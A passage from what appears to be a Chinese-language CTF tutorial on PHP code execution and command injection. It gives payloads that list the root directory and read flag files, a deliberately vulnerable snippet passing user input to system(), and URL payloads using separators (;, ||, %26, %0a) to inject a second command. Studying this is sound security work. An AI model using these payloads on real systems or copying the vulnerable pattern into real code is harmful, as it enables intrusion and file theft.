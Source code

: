 ## 8.2 提前终止程序

利用 `exit()` 或 `die()` 强制结束脚本并刷新缓冲区：
```c
c=var_export(scandir('/')); exit();
c=include('/flag.txt'); die();
c=readgzfile("/flag.txt"); die();
```

---

# 九. 命令分隔符

利用命令分隔符注入多条命令，示例代码如下：

```php
if(isset($_GET['c'])){
    $c = $_GET['c'];
    system($c . " >/dev/null 2>&1");   
}else{
    highlight_file(__FILE__);   
}
```

## 9.1 命令分隔符说明

- **`;`** 分号：分隔多条命令，前面的命令执行后，后面的命令也会执行。
- **`|`** 管道符：将前一条命令的输出作为后一条命令的输入。
- **`||`** 逻辑或：仅当前一命令失败时才执行后一条命令。
- **`&`**：在 URL 中是保留字符，需用 `%26` 表示。
- **`&&`** 逻辑与：仅当前一条命令成功后才执行下一条命令。
- **`%0a`**：URL 编码中的换行符，也可用作命令分隔符。

以下是示例 Payloads：

```c
?c=ls;ls
?c=tac flag.php;ls

?c=ls||
?c=tac flag.php||  

?c=ls%26
?c=tac flag.php%26  

?c=ls%26%26
?c=tac flag.php%26%26

?c=ls%0a
?c=tac flag.php%0a
```

---
